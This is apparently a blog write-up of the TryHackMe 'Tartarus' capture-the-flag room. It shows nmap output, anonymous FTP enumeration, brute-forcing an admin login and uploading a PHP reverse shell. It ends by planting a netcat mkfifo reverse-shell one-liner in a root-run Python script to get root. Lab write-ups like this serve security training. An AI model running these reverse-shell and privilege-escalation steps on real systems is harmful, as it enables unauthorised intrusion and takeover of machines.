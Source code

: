 ```yaml
---
layout: post
title: Tartarus Writeup
date: 2020-08-15 12:00:00 +5:30
categories: [TryHackMe, Medium]
tags: [tryhackme, ctf, http, leakedinfo] # add tag
---
```


## Description:

The Following Post is writeup of Tartarus room of tryhackme <https://tryhackme.com/room/tartarus>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Easy
|Creator | csenox

## Summary:

  The Room will have a anonymous ftp login upon further enum we will get a file which will redirect us to login page.
  Moving to port 80 we will get robots.txt which contains admin directory where we will get creds and user.
  Brute it to login and got a upload section. Upload a phpshell and will get www-data now you will see a python
  script in user directory put a nc reverse shell and root. :)

## Walkthrough:

### Enumeration

As usual
Lets start with nmap scan
```terminal
└──╼ $nmap -sC -sV 10.10.156.233
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-11 21:54 EDT
Nmap scan report for 10.10.156.233
Host is up (0.22s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.17.224
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.59 seconds
```

#### FTP

let's dirbust it
```terminal
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
-rw-r--r--    1 ftp      ftp            14 Jul 05 21:45 yougotgoodeyes.txt
226 Directory send OK

Never think this way
```
TBH i stuck at this but got it thanks

#### HTTP

we got robots.txt

User-Agent: * <br/>
Disallow : /admin-dir <br />
I told d4rckh we should hide our things deep.

![Page](/assets/img/tartarus/webserver.png)

I got creds and userid <br />
Let's check out what else we can do.

We have admin login let's bruteforce it

![login](/assets/img/tartarus/login.png)

![Bruteforce](/assets/img/tartarus/bruteforce.png)

Got a upload directory after successful login

![Page](/assets/img/tartarus/upload.png)

### Exploitation:

We will start Exploitation by uploading a php reverse Shell<br />
![port 80](/assets/img/tartarus/webshellupload.png)

Execute and get Shell

```terminal
www-data@ubuntu-xenial:/$ ls
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  srv  tmp  vagrant  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   snap  sys  usr  var      vmlinuz.old
www-data@ubuntu-xenial:/$ cd /home
www-data@ubuntu-xenial:/home$ ls
cleanup  d4rckh  thirtytwo
www-data@ubuntu-xenial:/home$ cd d4rckh/
www-data@ubuntu-xenial:/home/d4rckh$ ls
cleanup.py  user.txt
www-data@ubuntu-xenial:/home/d4rckh$ cat user.txt

www-data@ubuntu-xenial:/home/d4rckh$ cat cleanup.py
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /home/cleanup/* ')
except:
        sys.exit()
```
In place of os system let's put nc reverse Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f



Yessss
```terminal
┌─[silver@parrot]─[~/Desktop/tryhackme/tartarus]
└──╼ $pwncat --listen --port 4444
[10:42:02] received connection from 10.10.168.38:35120                                                                  connect.py:149
[10:42:05] new host w/ hash 43d11761713cfc52d9e6fe891bda5715                                                             victim.py:328
[10:42:21] pwncat running in /bin/sh                                                                                     victim.py:362
initializing: complete ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0%
[10:42:30] pwncat is ready 🐈                                                                                            victim.py:758


\[\033[01;31m\](remote)\[\033[00m\] \[\033[01;33m\]\u@\h\[\033[00m\]:\[\033[01;36m\]\w\[\033[00m\]$ bash
root@ubuntu-xenial:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-xenial:~#
```
Rooted :-)
